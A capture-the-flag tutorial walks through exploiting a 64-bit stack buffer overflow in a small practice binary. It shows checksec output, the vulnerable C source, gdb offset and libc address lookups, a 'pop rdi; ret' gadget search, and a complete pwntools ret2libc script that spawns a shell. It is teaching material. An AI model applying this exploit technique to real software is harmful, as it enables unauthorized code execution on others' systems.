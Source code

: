 Before we look at the binary's code, we should see if the binary has any binary hardening mitigations. These can make it significantly harder to pwn the binary. We can do this using checksec from pwntools.

```
guyinatuxedo@tux:/Hackery/escape/buf_ovf/b6_64$ pwn checksec b6_64
[*] '/Hackery/escape/buf_ovf/b6_64/b6_64'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE
```

As you can see there, it is al 64-bit binary with NX enabled. NX stands for non-executable stack which means that anywhere that a user can write to cannot be executed as code. This means that we can no longer push shellcode onto the stack, and then execute it. So let's look at the code...

```
guyinatuxedo@tux:/Hackery/escape/buf_ovf/b6_64$ cat b6_64.c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <unistd.h>

void nothing()
{
  char* buf0[50];
  read(STDIN_FILENO, buf0, 450);
}

int main()
{
  printf("If you do not get back to your research now, we will have to implement corrective solutions.\n");
  nothing();
}
```

So looking at the code, we see a couple of things. The first is that this time our buffer overflow is limited to just 450 characters because of the use of read(). Since this binary is using read, that means when we push "\x00" to the stack (because 64 bit C addresses hhave lots of those) it will continue reading it since it is a null byte. If it was fgets, it would just stop reading input. What we can do is we can get the address of the system function from the libc (since it includes the stdlib.c), along with the address of the string "/bin/sh" (which is usually somewhere in libc) and effectivley get a shell. The first thing we will need to do is find the offset to the rip function.

gdb-peda$ disas nothing
Dump of assembler code for function nothing:
   0x0000000000400536 <+0>: push   rbp
   0x0000000000400537 <+1>: mov    rbp,rsp
   0x000000000040053a <+4>: sub    rsp,0x190
   0x0000000000400541 <+11>:  lea    rax,[rbp-0x190]
   0x0000000000400548 <+18>:  mov    edx,0x1c2
   0x000000000040054d <+23>:  mov    rsi,rax
   0x0000000000400550 <+26>:  mov    edi,0x0
   0x0000000000400555 <+31>:  call   0x400410 <read@plt>
   0x000000000040055a <+36>:  nop
   0x000000000040055b <+37>:  leave  
   0x000000000040055c <+38>:  ret    
End of assembler dump.
gdb-peda$ b *nothing+36
Breakpoint 1 at 0x40055a
gdb-peda$ r
Starting program: /Hackery/escape/buf_ovf/b6_64/b6_64 
If you do not get back to your research now, we will have to implement corrective solutions.
75395128
```

One wall of text later...

```
Breakpoint 1, 0x000000000040055a in nothing ()
gdb-peda$ x/s $rbp-0x190
0x7fffffffdcc0: "75395128\n"
gdb-peda$ info frame
Stack level 0, frame at 0x7fffffffde60:
 rip = 0x40055a in nothing; saved rip = 0x400575
 called by frame at 0x7fffffffde70
 Arglist at 0x7fffffffde50, args: 
 Locals at 0x7fffffffde50, Previous frame's sp is 0x7fffffffde60
 Saved registers:
  rbp at 0x7fffffffde50, rip at 0x7fffffffde58
gdb-peda$ find "/bin/sh"
Searching for '/bin/sh' in: None ranges
Found 1 results, display max 1 items:
libc : 0x7ffff7b9a177 --> 0x68732f6e69622f ('/bin/sh')
gdb-peda$ p system
$1 = {<text variable, no debug info>} 0x7ffff7a53390 <__libc_system>
```

And onto the quest for the holy grail

```
>>> 0x7fffffffde58 - 0x7fffffffdcc0
408
```

So we the offset between the start of our input and the rip register is 408. We also have the system() address from libc, which is 0x7ffff7a53390. We also have the address of the string "/bin/sh" from libc which is 0x7ffff7b9a177. There is still one more piece we need for the exploit. With this binary, the argument is passed to the function via the registers instead of just being on the stack. This means that we will have to use Return Oriented Programming (ROP) to find a piece of assembly code (referred to as a gadget) that will pop an argument off of the stack and into a register for the system call to read. All the ROP gadget is, is it is a piece of assembly code already somewhere in the function that we will call. The specifi register we should be looking for are rdi, or it's 32 bit counterpart edi. Reason for this being is that should be the first place a function argument is stored. To find it, i will be using a tool called ROPGadget. If you are running the vm I made, it should already be installed. If not, here is the link to the github page.

https://github.com/JonathanSalwan/ROPgadget

```
guyinatuxedo@tux:/Hackery/escape/buf_ovf/b6_64$ ROPgadget --binary b6_64 | grep di
0x000000000040048d : je 0x4004a8 ; pop rbp ; mov edi, 0x6009f0 ; jmp rax
0x00000000004004db : je 0x4004f0 ; pop rbp ; mov edi, 0x6009f0 ; jmp rax
0x0000000000400723 : jmp qword ptr [rdi]
0x0000000000400490 : mov edi, 0x6009f0 ; jmp rax
0x000000000040048f : pop rbp ; mov edi, 0x6009f0 ; jmp rax
0x00000000004005e3 : pop rdi ; ret
```

So we can see at the very last line, we have code that will pop a value off the stack and into the rdi register, then return. This will pop "/bin/sh" off the stack and into the register, then just continue running code. So our exploit will look like this.

```
payload = offset + gadget + bin_sh + system
```

So as you can see, when the nothing() function returns, it will execut our rop gadget will we pop the next thing off the stack (/bin/sh) into the rdi register, then it will run system. Now here is the python script that will do all of it.

```
guyinatuxedo@tux:/Hackery/escape/buf_ovf/b6_64$ cat exploit.py 
#Import Pwn Tools
from pwn import *

#Establish the target
target = process("./b6_64")

#Recieve the first line, so we can reach the read call
print target.recvline()

#Establish the offset to reach the rip register
offset = "0"*408

#Rop Gadget to pop bin_sh into rdi
gadget = p64(0x00000000004005e3)

#Address of "/bin/sh" from libc
bin_sh = p64(0x7ffff7b9a177)

#Address of system function from libc
system = p64(0x7ffff7a53390)

#Constructing the paylaod
payload = offset + gadget + bin_sh + system

#Sending the payload
target.sendline(payload)

#Dropping to an interactive prompt
target.interactive()
```

Now let's test the exploit...

```
guyinatuxedo@tux:/Hackery/escape/buf_ovf/b6_64$ python exploit.py 
[+] Starting local process './b6_64': Done
If you do not get back to your research now, we will have to implement corrective solutions.

[*] Switching to interactive mode
$ ls
b6_64  b6_64.c    core  exploit.py  out  peda-session-b6_64.txt  test.c
$ echo It Works!
It Works!
$ cat out
Someone has been researching security overriding methods. Level Cleared!
$ exit
[*] Got EOF while reading in interactive
$ exit
[*] Process './b6_64' stopped with exit code -11
[*] Got EOF while sending in interactive
```

And just like that, we pwned the binary.
